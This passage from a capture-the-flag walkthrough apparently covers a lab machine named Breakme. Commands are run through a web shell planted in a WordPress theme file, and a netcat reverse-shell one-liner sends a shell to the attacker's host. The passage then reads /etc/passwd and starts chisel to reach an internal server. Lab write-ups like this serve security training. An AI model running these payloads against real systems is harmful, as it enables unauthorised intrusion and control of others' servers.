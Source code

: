 ```console
$ curl -s -X GET 'http://10.10.225.113/wordpress/wp-content/themes/twentytwentyfour/functions.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .wrap }

Now, using the web shell, we can obtain a shell as `www-data`.

```console
$ curl -s --get 'http://10.10.225.113/wordpress/wp-content/themes/twentytwentyfour/functions.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.225.113] 59254
bash: cannot set terminal process group (622): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Breakme:/var/www/html/wordpress/wp-content/themes/twentytwentyfour$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as john

### The Internal Webserver

Checking the `/etc/passwd`, we discover two users on the machine: `john` and `youcef`.

```console
www-data@Breakme:/var/www$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
john:x:1002:1002:john wick,14,14,14:/home/john:/bin/bash
youcef:x:1000:1000:youcef,17,17,17:/home/youcef:/bin/bash
```

Checking the processes belonging to the `john` user, we discover that the user is running a `PHP` development server.

```console
www-data@Breakme:/var/www$ ps -aux | grep john
john         531  0.0  0.9 193800 20188 ?        Ss   20:03   0:00 /usr/bin/php -S 127.0.0.1:9999
```
{: .wrap }

Since the web server is bound to `127.0.0.1`, we can use `chisel` to forward it for access.

First, starting `chisel` in server mode on our machine.

```console
$ chisel server -p 7777 --reverse
```

After that, downloading `chisel` to the target machine and running it in client mode, forwarding port `9999`.
